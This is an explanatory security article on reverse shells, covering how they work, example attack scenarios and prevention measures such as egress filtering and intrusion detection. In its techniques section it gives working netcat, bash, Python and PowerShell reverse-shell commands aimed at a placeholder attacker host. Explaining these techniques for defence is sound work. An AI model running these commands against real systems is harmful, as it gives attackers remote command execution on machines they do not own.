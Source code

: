 ## Reverse Shell

A reverse shell is a type of shell session where the target machine opens a connection to an attacker's machine, allowing the attacker to execute commands on the target system remotely. This technique is commonly used in penetration testing and by malicious actors to gain unauthorized access to systems.

### How Reverse Shells Work

In a typical reverse shell scenario, the attacker sets up a listener on their machine, waiting for incoming connections. The target machine, once compromised, executes a command that connects back to the attacker's listener. This connection allows the attacker to send commands and receive output as if they were directly interacting with the target system.

### Common Techniques for Establishing a Reverse Shell

1. **Using Netcat**:
   - Netcat (often abbreviated as `nc`) is a versatile networking utility that can create TCP/UDP connections. A reverse shell can be established using the following commands:
     - **Attacker's Listener**:
       ```
       nc -lvnp 4444
       ```
     - **Target Command**:
       ```
       nc attacker_ip 4444 -e /bin/bash
       ```

2. **Using Bash**:
   - A reverse shell can also be created using built-in shell commands:
     - **Target Command**:
       ```
       bash -i >& /dev/tcp/attacker_ip/4444 0>&1
       ```

3. **Using Python**:
   - Python can be used to create a reverse shell if it is installed on the target system:
     - **Target Command**:
       ```python
       python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker_ip",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
       ```

4. **Using PowerShell**:
   - On Windows systems, PowerShell can be used to establish a reverse shell:
     - **Target Command**:
       ```powershell
       $client = New-Object System.Net.Sockets.TCPClient("attacker_ip",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -ComObject System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$bytes = (New-Object -ComObject System.Text.ASCIIEncoding).GetBytes($sendback2);$stream.Write($bytes,0,$bytes.Length);$stream.Flush()};$client.Close()
       ```

### Example Scenarios

1. **Web Application Vulnerability**:
   - An attacker exploits a vulnerability in a web application (e.g., file upload vulnerability) to upload a malicious script that, when executed, establishes a reverse shell connection back to the attacker's machine.

2. **Phishing Attack**:
   - An attacker sends a malicious link to a victim. When the victim clicks the link, it executes a script that opens a reverse shell to the attacker's listener.

3. **Malware Deployment**:
   - An attacker deploys malware on a target machine that includes a reverse shell feature, allowing them to control the machine remotely.

### Prevention Measures

To mitigate the risk of reverse shell attacks, organizations should implement the following best practices:

- **Network Segmentation**: Isolate critical systems from the internet and limit access to trusted networks.
- **Firewall Rules**: Configure firewalls to block outgoing connections to untrusted IP addresses and ports.
- **Intrusion Detection Systems (IDS)**: Use IDS to monitor network traffic for suspicious activity, including unexpected outbound connections.
- **Regular Security Audits**: Conduct regular security assessments to identify and remediate vulnerabilities that could be exploited for reverse shell attacks.
- **User Education**: Train users to recognize phishing attempts and avoid executing untrusted scripts or applications.

By understanding reverse shell techniques and employing robust security measures, organizations can significantly reduce the risk of unauthorized access and protect sensitive data.